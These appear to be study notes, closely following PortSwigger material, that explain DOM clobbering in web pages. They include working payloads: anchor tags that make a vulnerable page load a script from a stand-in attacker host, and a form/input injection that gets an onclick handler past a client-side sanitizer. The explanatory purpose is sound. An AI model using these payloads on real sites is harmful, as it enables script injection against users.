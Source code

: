 
----

- DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page.
	- DOM clobbering is particularly useful in cases where [XSS](https://portswigger.net/web-security/cross-site-scripting) is not possible, but you can control some HTML on a page where the attributes `id` or `name` are whitelisted by the HTML filter.
		-  Anchor element to overwrite a global variable

### How to exploit DOM-clobbering vulnerabilities

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

`<script> window.onload = function(){ let someObject = window.someObject || {}; let script = document.createElement('script'); script.src = someObject.url; document.body.appendChild(script); }; </script>`

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>`

As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script. 

- Another common technique is to use a `form` element along with an element such as `input` to clobber DOM properties. For example, clobbering the `attributes` property enables you to bypass client-side filters that use it in their logic. Although the filter will enumerate the `attributes` property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, you will be able to inject malicious attributes that would normally be filtered out. For example, consider the following injection:

`<form onclick=alert(1)><input id=attributes>Click me`

In this case, the client-side filter would traverse the DOM and encounter a whitelisted `form` element. Normally, the filter would loop through the `attributes` property of the `form` element and remove any blacklisted attributes. However, because the `attributes` property has been clobbered with the `input` element, the filter loops through the `input` element instead. As the `input` element has an undefined length, the conditions for the `for` loop of the filter (for example `i<element.attributes.length`) are not met, and the filter simply moves on to the next element instead. This results in the `onclick` event being ignored altogether by the filter, which subsequently allows the `alert()` function to be called in the browser.

